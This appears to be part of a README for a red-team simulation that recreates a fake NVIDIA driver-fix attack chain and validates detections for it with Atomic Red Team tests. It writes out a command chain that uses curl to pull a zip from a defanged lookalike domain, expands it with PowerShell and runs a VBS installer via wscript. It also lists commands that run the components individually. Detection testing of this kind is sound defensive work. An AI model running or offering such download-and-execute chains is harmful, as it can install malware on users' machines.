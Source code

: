 ```batch
# Execute the complete chain:
execute_attack_chain.bat
```

**Command Chain Simulated:**
```bash
curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/nvidiadrivers-kp9s.update
&& powershell -Command "Expand-Archive -Force -Path '%TEMP%\nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"
&& wscript "%TEMP%\nvidiadrivers\install.vbs"
```

### Method 2: Individual Component Testing

#### VBS-Only Testing
```batch
# Extract package manually
powershell -Command "Expand-Archive -Force -Path 'nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"

# Test individual VBS components
wscript "%TEMP%\nvidiadrivers\driver_loader.vbs"    # Driver loading only
wscript "%TEMP%\nvidiadrivers\update.vbs"           # Full simulation
wscript "%TEMP%\nvidiadrivers\install.vbs"          # Installation workflow
```

#### PowerShell-Only Testing
```powershell
# Run PowerShell components
.\nvidiadrivers\setup.ps1 -SilentInstall
.\nvidiadrivers\powershell_helper.ps1 -Action "FullSimulation"
```

### Method 3: Atomic Red Team Integration
```powershell
# Run specific atomic tests
Invoke-AtomicTest T1068 -TestGuids 7c8b9c45-2d4e-4f8a-9b3c-1e7d9f2a5b8c
Invoke-AtomicTest T1059.005 -TestGuids e8f9a1b2-c3d4-5678-90ab-cdef12345678
Invoke-AtomicTest T1105 -TestGuids c6d7e8f9-a0b1-2345-6789-0abcdef12345
```

## Detection Validation

### Automated Detection Testing
```powershell
# Comprehensive detection validation
powershell -File tools\detection_validator.ps1 -TestAllDetections -GenerateReport

# Individual test categories
powershell -File tools\detection_validator.ps1 -TestDriverInstallation
powershell -File tools\detection_validator.ps1 -TestVBSExecution
powershell -File tools\detection_validator.ps1 -TestRegistryModification
```
